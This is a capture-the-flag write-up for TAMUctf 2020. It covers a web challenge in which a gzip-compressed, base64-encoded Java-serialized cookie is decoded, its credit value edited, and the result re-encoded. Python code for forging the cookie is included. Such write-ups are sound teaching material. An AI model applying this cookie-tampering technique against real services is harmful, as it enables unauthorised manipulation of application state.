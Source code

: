 ```yaml
---
layout: post
title:  "TAMUctf 2020"
date: 2020-03-20
---
```


<span class="align-center" markdown="1">
    <span class="categories-index">
        **Categories index**<br>
        [Web](#web) - [Misc](#misc) - [Rev](#rev) - [Crypto](#crypto) - [Pentest](#pentest) - [Pwn](#pwn)
    </span>
</span>

---

# Web

## Too many credits 1

> Okay, fine, there's a lot of credit systems. We had to put that guy on break; seriously concerned about that dude.
> Anywho. We've made an actually secure one now, with Java, not dirty JS this time. Give it a whack?
> If you get two thousand million credits again, well, we'll just have to shut this program down.

The page shows us a counter of credits and lets us increment it by one clicking on a button.

Counter state is saved in a cookie named `counter=H4sIAAA.../.../...A==`.

The first fours characters of every cookie, `H4sI`, points to gzip compressed data.

Decompressing the cookie gets access to a plain text serialization of the Java Class.

Only need to modify the value and compress it back.

```python
import gzip
import base64
import zlib

gzip.decompress(base64.b64decode("H4sIAAAAAAAAAFvzloG1uIhBNzk/Vy+5KDUls6QYg87NT0nN0XMG85zzS/NKjDhvC4lwqrgzMTB6MbCWJeaUplYUMEAABwAU254bUgAAAA=="))
# b'\xac\xed\x00\x05sr\x00-com.credits.credits.credits.model.CreditCount2\t\xdb\x12\x14\t$G\x02\x00\x01J\x00\x05valuexp\x00\x00\x00\x00\x00\x00\x00\x08'

moreCredits = b'\xac\xed\x00\x05sr\x00-com.credits.credits.credits.model.CreditCount2\t\xdb\x12\x14\t$G\x02\x00\x01J\x00\x05valuexp\x00\x00\x00\x00\xFF\xFF\xFF\xFF'
base64.b64encode(gzip.compress(moreCredits))
# b'H4sIAKpBdl4C/1vzloG1uIhBNzk/Vy+5KDUls6QYg87NT0nN0XMG85zzS/NKjDhvC4lwqrgzMTB6MbCWJeaUplYUMADBfyAAAMVz/stSAAAA'
```
